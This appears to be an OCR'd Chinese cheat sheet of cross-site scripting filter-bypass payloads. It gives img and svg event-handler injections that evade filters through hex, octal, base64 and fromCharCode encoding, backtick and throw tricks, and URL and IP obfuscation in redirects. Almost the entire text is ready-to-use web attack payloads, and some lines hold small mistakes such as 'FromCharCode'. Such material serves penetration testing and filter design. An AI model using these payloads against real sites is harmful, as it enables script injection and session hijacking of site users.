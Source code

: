```html
hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制
<img src=x onerror=alert('\170\163\163')>

base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

**过滤双引号,单引号**
```html
1.如果是html标签中,我们可以不用引号.如果是在js中,我们可以用反引号代替单双引号
<img src="x" onerror=alert(`xss`);>
2.使用编码绕过,具体看上面我列举的例子,我就不多赘述了
```
```html
过滤括号
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```
```html
过滤url地址
使用url编码
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

使用IP
1.十进制IP
<img src="x" onerror=document.location=`http://2130706433/`>

2.八进制IP
<img src="x" onerror=document.location=`http://0177.0.0.01/`>

3.hex
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

4.html标签中用//可以代替http://
<img src="x" onerror=document.location=`//www.baidu.com`>

5.使用\\
但是要注意在windows下\本身就有特殊用途,是一个path 的写法,所以\\在Windows下是file协议,在linux下才会是当前域的协议

6.使用中文逗号代替英文逗号
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号
<img src="x" onerror="document.location=`http://www.baidu.com`">//会自动跳转到百度
```
```js
fromCharCode方法绕过
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)
eval(FromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))
```
